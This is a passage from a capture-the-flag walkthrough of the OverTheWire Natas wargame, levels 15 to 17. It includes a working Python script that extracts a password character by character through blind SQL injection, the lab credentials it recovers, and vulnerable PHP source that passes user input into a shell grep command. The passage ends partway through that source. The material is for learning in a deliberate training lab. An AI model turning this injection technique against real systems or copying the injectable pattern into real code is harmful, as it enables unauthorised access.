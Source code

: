 4. Step 4 - Use the `python` code that I created to **brute-force** the password.
```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org/index.php"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx") # Change the password if needed

charset = string.ascii_letters + string.digits  # a-z, A-Z, 0-9

found = ""

# Brute-force the password
print('Start brute-forcing!!')
for i in range(1, 33): 
    for ch in charset:
        payload = f'natas16" AND password LIKE BINARY "{found + ch}%" -- '

        # Send request
        res = requests.post(url, data={"username": payload}, auth=auth)

        # Check response
        if "This user exists." in res.text:
            found += ch
            print(f"[+] Found so far: {found}")
            break

print(f"\n[✅] Final password for natas16: {found}")
```
- Running the code you will get the result:

![Screenshot image](/images/posts/natas_level_15_to_16.png)

5. Step 5 - Take the password to the next level.

**Next Level Password**

`hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

---

## Natas Level 16 → Level 17
(Updated: 14 August 2025)

**Credentials**
- **Username:** `natas16`
- **Password:** `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

**Connection**

Level url: [http://natas16.natas.labs.overthewire.org/](http://natas16.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Click `View sourcecode` and we can see the `php` code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
```